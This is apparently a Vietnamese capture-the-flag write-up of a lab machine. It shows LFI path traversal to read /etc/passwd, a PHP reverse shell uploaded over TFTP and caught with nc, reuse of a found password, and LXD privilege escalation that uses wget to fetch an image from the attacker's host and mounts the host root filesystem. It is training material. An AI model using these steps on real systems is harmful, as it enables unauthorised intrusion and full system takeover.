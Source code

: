 ip: 10.129.95.185
- tiến hành scan nmap:
- nmap -sV -T4 'ip'

 ![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/62452d6b-535f-48e1-b6f5-1ebb8c0ea63f)
 
- Quét được apache chạy trên cổng 80.
-  Task 1: What service is running on the target machine over UDP? 
- sudo nmap  -Pn -sU --min-rate=4000 10.129.95.185 quét udp
![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/bf086cc4-7732-4f8a-972e-3b3b5a619fe7)

- quét lỗi rồi đáp án có 4 chữ, chữ cuối là p, đề bài liên quan đến TFTP => giao thức là TFTP
- tiến hành truy cập vào trang web

 ![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/270e3fef-0358-4f8e-9161-038e27317959)

- Url: http://10.129.95.185/?file=home.php nhìn trông giống lỗ hổng LFI
  + FIle Inclusion cho phép kẻ tấn công có thể xem các tệp trên máy chủ từ xa mà không cần nhìn thấy hoặc có thể thực thi các mã vào 1 mục tiêu bất kì trên trang web .
  + Điều này xảy ra là do trong code php web , lập trình viên đã sử dụng các lệnh include, require, include_once, require _ once , các lệnh này cho phép việc file hiện tại có thể gọi ra 1 file khác.
  + Dấu hiệu để nhận biết rằng trang web có thể tấn công file inclusion là đường link thường có dạng php?page=,hoặc php?file= ....
- Tiến hành khai thác thử: nhập ?file=/../../../../../etc/passwd
![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/260315f0-b89f-4c45-b646-e348ce3a3e73)
- "tftp:x:110:113:tftp daemon,,,:/var/lib/tftpboot:/usr/sbin/nologin" 
- Task 3: What is the default system folder that TFTP uses to store files? /var/lib/tftpboot/ 
- Được luôn, ta thấy tên người dùng là mike.
- TFTP là giao thức chia sẻ file sinh ra từ năm 1970, cổ lỗ quá nên thiếu bảo mật, không yêu cầu xác thực người dùng.
- Không có chức năng lỉệt kê thư mục, đẩy 1 shell.php
- Lấy file có sẵn từ kali. Thay đổi ip của máy tấn công và đổi cổng thành 1234.
- ip mục tiêu đổi thành: 10.129.49.22

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/8d2609be-1701-401c-a077-341c9584f069)

- sau khi put lên, mở nc sử dụng cổng ta đã điền trong shell.php. Cổng 1337
![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/83f9e74e-3cd3-4748-b9ff-0944e856e6e2)

- Để shell hoạt động tốt hơn nhập lệnh: python3 -c 'import pty;pty.spawn("/bin/bash")'
- Cd vào thư mục var/www/html sử dụng lệnh ls -al để xem file ẩn.

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/2ad603ce-8a7a-4e12-81ef-317a12b31c53)

- Thấy được tên người dùng là mike như trước đó pass là: Sheffield19
- sử dụng lệnh su mike nhập mk: Sheffield19 để thay đổi user
- cd home, ls ta thấy có 1 file là user.txt tiến hành đọc file ra
- ![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/11804040-01a7-4803-ac9b-132024402fce)

- Nhập lệnh ID

  ![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/13115e20-c5af-418b-8f69-41d600abe853)

- LXD là 1 trình quản lý contaniner cho hệ thống, người dùng ở nhóm lxd sẽ được quyền sudo mặc dù không được cấp mật khẩu root hay được cấp quyền sudo.
- (https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)
- Sử dụng phương pháp thứ 2.

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/0e9ae4ef-4db6-4b9b-bef5-426ba0893385)

- tạo 1 sever http 
![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/521a513e-3a5d-43dc-b254-8b12ea1052a4)
- wget http://10.10.14.66:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz : để tải file lên mục tiêu: 10.10.14.66 ip local
![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/791d50a7-ec85-4af3-afe7-c580477b4958)
- image container vào LXD đặt tên là myimage
![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/75534106-2098-4fed-a773-4784dee7fb76)
- lxc init myimage privesc -c security.privileged=true
- lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
- lxc exec privesc /bin/sh
![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/ff916f17-697e-4786-8dd9-ac6a42679efd)

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/fbd3e6a2-9ed4-4c9c-8327-98575c83e54f)




